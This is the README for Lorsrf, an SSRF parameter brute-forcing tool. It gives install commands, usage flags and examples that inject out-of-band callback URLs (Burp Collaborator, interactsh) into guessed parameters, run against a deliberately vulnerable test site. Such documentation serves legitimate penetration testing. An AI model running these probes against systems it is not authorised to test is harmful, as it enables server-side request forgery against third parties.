

# LORSRF - 2.1


***
Lorsrf is a powerful web penetration testing tool designed to identify parameters that can be exploited for SSRF or Out-of-band resource load attacks. By adding an OAST host like Burp Collaborator to the parameter value, Lorsrf can generate an HTTP request that is received in Burp Collaborator, without any actual information about the target.

To address this issue, Lorsrf includes a feature that allows you to add specific pieces of target information as variables in your OAST host. This allows you to more easily identify vulnerable parameters and endpoints, ultimately making it easier to secure your web applications.

In addition to the above, Lorsrf also allows you to include additional information in your OAST host using special variables. For example, you can include the endpoint of your target domain, the query of the URL, the current request method, and more.

Overall, Lorsrf is a powerful tool that can be customized to meet your specific web pen-testing needs. Whether you're looking to identify and fix vulnerabilities in your own web applications or assess the security of third-party web apps, Lorsrf is a valuable addition to any pen-testing toolkit.
	
 
| Variable      | Description |
| ----------- | ----------- |
| %PARAM%      | the guessed parameter      |
| %PATH%   |  the endpoint of your target domain |
| %HOST%   | the scanning host
| %QUERY% | the query of the url |
| %METHOD% | Current METHOD |

you can use these for include more informations in your OAST host

```
target: http://testphp.vulnweb.com/showimage.php
payload: http://%HOST%.%PARAM%.testing.interactsh.com%PATH%
output: http://testphp.vulnweb.com.file.testing.interactsh.com/showimage.php
```

by default lorsrf use GET method if you want post method with form body or json you can add these falgs

```bash
$ lorsrf --json --form
```

if you want post only add `--post-only` flag


### Install
1. install the last version of rust from https://www.rust-lang.org/tools/install
2. run these commmands
```bash
>>> apt install gcc pkg-config libssl-dev
>>> cargo install --git https://github.com/knassar702/lorsrf
```
or download it from the release page 

#### Examples

```
$ lorsrf --urls targets.txt -c "http://myhost.com" --wordlist params.txt
```

* json

```


$ lorsrf --urls targets.txt -c "http://myhost.com" --wordlist params.txt --json
```

* form

```
$ lorsrf --urls targets.txt -c "http://myhost.com" --wordlist params.txt --form
```


parameter scanner without geussing

```bash
$ waybackurls http://testphp.vulnweb.com > urls.txt
$ lorsrf --urls urls.txt -c "http://myhost.com" --wordlist params.txt
```


* Video: [demo](https://twitter.com/knassar702/status/1472566701027901450)

more options

```bash
Lorsrf 2.0
Khaled Nassar <knassar702@gmail.com>
SSRF Parameter BruteForce Tool

USAGE:
    lorsrf [FLAGS] [OPTIONS] --call <host> --urls <targets>

FLAGS:
    -f, --form         Use x-www-form-urlencoded requests via POST method
    -h, --help         Prints help information
    -j, --json         Use JSON requests via POST method
        --post-only    POST method only
    -V, --version      Prints version information

OPTIONS:
    -H, --headers <headers>      Your Headers [default: ]
    -c, --call <host>            Your The OAST Host (burpsuite collaborator or interactsh.com)
    -p, --proxy <proxy>          SendProxy [default: ]
    -u, --urls <targets>         Your Targets list
        --threads <threads>      Your Threads [default: 10]
    -t, --timeout <timeout>      Set the Timeout of the requests [default: 10]
    -w, --wordlist <wordlist>    Your Parameters Wordlist
```


### TODO-LIST
* https://github.com/knassar702/lorsrf/projects/1
